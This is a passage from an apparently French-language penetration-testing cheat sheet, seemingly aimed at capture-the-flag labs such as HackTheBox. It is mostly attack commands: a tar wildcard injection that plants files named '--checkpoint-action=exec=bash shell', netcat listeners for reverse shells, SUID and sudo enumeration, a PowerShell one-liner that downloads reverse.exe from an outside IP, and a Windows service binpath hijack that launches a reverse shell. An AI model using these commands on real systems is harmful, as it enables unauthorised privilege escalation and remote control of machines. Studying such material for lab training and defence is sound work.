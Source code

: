 ```bash
touch /var/www/html/--checkpoint=1
ou avec echo "" >
```

```bash
touch /var/www/html/--checkpoint-action=exec=bash\ shell
ou avec echo "" >
```

Lancer un listener sur votre machine avec le port spécifier :

```bash
nc -lvnp <port>
```

## 9) Trouver les permissions

```bash
getcap -r / 2>/dev/null
```

```bash
find / \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
```

```bash
sudo -l
```

## 10) Download un shell Windows

```powershell
powershell -c "(New-Object System.Net.WebClient).Downloadfile('http://10.11.53.14:8888/reverse.exe','shell.exe')"
```

## 11) ltrace

Ne pas oublier cette commande pour afficher les appels des applications.

## 12) Groupe

Ne pas oublier de regarder les groupes avec la commande id.

## 13) SSH Forwarding

ssh -i key -L <port-local>:127.0.0.1:<port-distant> strapi@horizontall.htb

## 14) PrivEsc

Insecure Service Permissions :
```powershell
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
Si l'utilisateur a le SERVICE_CHANGE_CONFIG de permis alors OK :
```powershell
sc qc daclsvc
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```
Ensuite start un listener sur la machine :
```bash
nc -lvnp 1234
```
